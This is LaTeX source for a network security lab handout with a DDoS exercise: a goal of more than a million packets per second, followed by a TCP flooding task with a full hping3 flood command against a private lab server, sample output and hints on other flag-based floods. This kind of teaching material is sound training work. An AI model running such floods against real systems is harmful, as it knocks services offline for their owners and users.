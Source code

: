 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
{\bf Solution:}\\
When your team has sent +1 million packets per second into the network, from one or two laptops - you are done.

{\bf Discussion:}\\
Gigabit Ethernet can send up to 1.4 million packets per second, pps.

There is a presentation about DDoS protection with low level technical measures to implement at\\
{\footnotesize {}}

Receiving systems, and those en route to the service, should be checked for resources like CPU load, bandwidth, logging. Logging can also overload the logging infrastructure, so take care when configuring this in your own networks.


\chapter{\faInfoCircle\ TCP other flooding 15min}


{\bf Objective:}\\
Start a webserver attack using TCP flooding tool hping3.

{\bf Purpose:}\\
Run various other common attacks

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

\begin{alltt}
hping3 --flood -p 80 -R 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}


{\bf Hints:}\\
Common attacks use the SYN, as shown in previous exercise, but other popular
TCP attacks are RST, PUSH, URG, FIN, ACK attacks - setting one or more flags in the packets.
\end{document}
